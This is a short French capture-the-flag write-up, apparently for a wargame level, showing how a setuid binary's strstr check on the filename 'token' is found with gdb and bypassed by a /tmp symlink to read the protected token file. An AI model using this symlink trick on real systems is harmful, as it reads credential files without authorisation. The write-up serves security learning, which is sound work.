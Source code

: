 # Level08

Premiere étape de recherche

	$ ls -la
	-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08  flag08    26 Mar  5  2016 token

On trouve un binaire setuid/getuid et un fichier "token"

	$ ./level08
	./level08 [file to read]

	$ ./level08 level08

Il affiche le contenu du fichier

	$ ./level08 token
	You may not access 'token'

Cela ne fonctionne pas sur le fichier "token"

Essayons avec un autre fichier dont nous n'avons pas les droits

	$ ./level08 .profile
	level08: Unable to open .profile: Permission denied

C'est pas la meme erreur qu'avec le fichier token. Il y a surement un check sur le nom du fichier

	$ gdb level08
	$ (gdb) disas main
	0x080485ba <+102>:	call   0x8048400 <strstr@plt>

La fonction strstr compare 2 chaines donc c'est ça

On a pas les droits pour cp ou mv dans /tmp donc on va faire un lien avec un autre nom vers le fichier token et essayer de l'ouvrir avec le binaire

	$ ln -s /home/user/level08/token /tmp/link
	$ ls -l /tmp/link
	lrwxrwxrwx 1 level08 level08 24 Nov 28 15:24 /tmp/link -> /home/user/level08/token

	$ ./level08 /tmp/link
	(good)

